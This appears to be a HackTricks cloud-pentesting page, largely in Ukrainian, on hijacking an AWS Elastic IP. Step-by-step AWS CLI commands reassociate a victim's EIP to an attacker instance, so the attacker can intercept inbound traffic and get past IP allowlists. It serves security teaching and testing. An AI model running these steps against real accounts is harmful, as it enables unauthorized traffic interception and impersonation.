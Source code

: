 # AWS - Elastic IP Hijack for Ingress/Egress IP Impersonation

{{#include ../../../../banners/hacktricks-training.md}}

## Підсумок

Зловживання `ec2:AssociateAddress` (та опційно `ec2:DisassociateAddress`) для повторної асоціації Elastic IP (EIP) з інстансу/ENI цілі на інстанс/ENI зловмисника. Це перенаправляє вхідний трафік, спрямований на EIP, до зловмисника і також дозволяє зловмиснику ініціювати вихідний трафік з allowlisted публічною IP-адресою, щоб обійти зовнішні фаєрволи партнерів.

## Передумови
- Target EIP allocation ID in the same account/VPC.
- Інстанс/ENI зловмисника під вашим контролем.
- Права:
- `ec2:DescribeAddresses`
- `ec2:AssociateAddress` для allocation-id EIP та для інстансу/ENI зловмисника
- `ec2:DisassociateAddress` (необов'язково). Примітка: `--allow-reassociation` автоматично від'єднає від попереднього приєднання.

## Атака

Змінні
```bash
REGION=us-east-1
ATTACKER_INSTANCE=<i-attacker>
VICTIM_INSTANCE=<i-victim>
```
1) Виділити або визначити EIP жертви (лабораторія виділяє новий і прикріплює його до жертви)
```bash
ALLOC_ID=$(aws ec2 allocate-address --domain vpc --region $REGION --query AllocationId --output text)
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $VICTIM_INSTANCE --region $REGION
EIP=$(aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION --query Addresses[0].PublicIp --output text)
```
2) Перевірте, що EIP наразі вказує на сервіс жертви (наприклад, перевірка на banner)
```bash
curl -sS http://$EIP | grep -i victim
```
3) Повторно асоціювати EIP з attacker (автоматично від'єднається від victim)
```bash
aws ec2 associate-address --allocation-id $ALLOC_ID --instance-id $ATTACKER_INSTANCE --allow-reassociation --region $REGION
```
4) Перевірте, що EIP тепер вказує на attacker service
```bash
sleep 5; curl -sS http://$EIP | grep -i attacker
```
Докази (переміщена асоціація):
```bash
aws ec2 describe-addresses --allocation-ids $ALLOC_ID --region $REGION \
--query Addresses[0].AssociationId --output text
```
## Вплив
- Inbound impersonation: Увесь трафік до захопленого EIP доставляється на attacker instance/ENI.
- Outbound impersonation: Attacker може ініціювати трафік, який виглядає так, ніби він походить з allowlisted public IP (корисно для обходу partner/external source IP filters).

{{#include ../../../../banners/hacktricks-training.md}}
